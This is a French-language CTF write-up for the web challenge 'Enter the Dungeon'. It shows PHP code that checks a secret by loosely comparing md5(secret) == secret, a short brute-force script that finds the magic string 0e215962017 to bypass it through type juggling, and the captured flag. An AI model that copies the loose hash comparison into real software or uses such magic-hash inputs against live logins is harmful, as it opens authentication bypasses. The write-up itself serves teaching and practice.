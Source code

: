 # Enter the Dungeon - Web - 50

> On vous demande simplement de trouver le flag.

On a ici un challenge assez classique qui a obtenu le plus de validations dans la catégorie Web (580 à la fin du CTF).
En accédant à l'application, nous avons quelques indications supplémentaires:

> The flag is hidden into the dungeon ! You should come here as the dungeon_master to be able to open the gate and access the treasure.

> Les admins ont reçu un message indiquant qu'un pirate avait retrouvé le secret en contournant la sécurité du site.
Pour cette raison, le formulaire de vérification n'est plus fonctionnel tant que le développeur n'aura pas corrigé la vulnérabilité

Nous avons également un formulaire nous demandant d'entrer une clé secrète pour devenir le "dungeon master" (et ainsi récupérer le flag).

Nous pouvons en déduire deux choses:

* Nous devons trouver un moyen de s'authentifier pour obtenir le flag
* L'application semble comporter une vulnérabilité, permettant de contourner l'authentification.
* Le développeur est censé corriger cette vulnérabilité (il a peut être déjà appliqué son "patch")

Nous allons fouiller dans le code source pour voir s'il n'y a pas d'autres éléments intéressants:

```html
<!-- Pour les admins : si vous pouvez valider les changements que j'ai fait dans la page "check_secret.php", le code est accessible sur le fichier "check_secret.txt" -->
```

En effet, notre hypothèse se confirme, le développeur est bien en train de "corriger" la vulnérabilité et nous donne gracieusement le code de sa modification.

## Recherche de vulnérabilité


```php
<?php
	session_start();
	$_SESSION['dungeon_master'] = 0;
?>
<html>
<head>
	<title>Enter The Dungeon</title>
</head>
<body style="background-color:#3CB371;">
<center><h1>Enter The Dungeon</h1></center>
<?php
	echo '<div style="font-size:85%;color:purple">For security reason, secret check is disable !</div><br />';
	echo '<pre>'.chr(10);
	include('./ecsc.txt');
	echo chr(10).'</pre>';

	// authentication is replaced by an impossible test
	//if(md5($_GET['secret']) == "a5de2c87ba651432365a5efd928ee8f2")
	if(md5($_GET['secret']) == $_GET['secret'])
	{
		$_SESSION['dungeon_master'] = 1;
		echo "Secret is correct, welcome Master ! You can now enter the dungeon";
		
	}
	else
	{
		echo "Wrong secret !";
	}
?>
</body></html>
```

Le développeur semble avoir fixé la vulnérabilité par un test "impossible", il faut que le hash md5 du secret soit égal au secret qu'on lui fournit.

Nous repérons immédiatement l'utilisation de la comparaison simple "==", ce qui permet de faire du type juggling.

## Exploitation du type juggling

En php avec une comparaison simple, nous avons "0e123" == 0, la chaîne est interprétée en tant qu'entier et calculée.
Dans notre cas, 0^123 = 0 donc la comparaison est vraie.

Nous pouvons abuser de cette particularité pour bypasser la condition, il nous faut pour cela trouver une chaîne de la forme ```^0e[0-9]*$``` pour laquelle son hash md5 est aussi de cette même forme.

Pour cela, j'ai rapidement fait un script php qui fait ce travail:

```php
$i = 0;

do {
	$tohash = "0e".$i;
	$i++;
} while(md5($tohash) != $tohash);

echo $tohash . " = " . md5($tohash);
```

Le script va comparer toutes les chaînes de la forme "0eXXX" tant que le hash md5 n'est pas équivalent à cette chaîne.
Ce qui nous donne après quelques minutes:
```
0e215962017 = 0e291242476940776845150308577824
```

Nous pouvons donc rentrer cette chaîne "0e215962017", et nous obtenons le message suivant:

```Secret is correct, welcome Master ! You can now enter the dungeon ```

Nous retournons sur la page d'accueil et pouvons ainsi récupérer le flag !

```
Félicitation Maître, voici le flag : FCSC{f67aaeb3b15152b216cb1addbf0236c66f9d81c4487c4db813c1de8603bb2b5b}
```

FLAG: FCSC{f67aaeb3b15152b216cb1addbf0236c66f9d81c4487c4db813c1de8603bb2b5b}
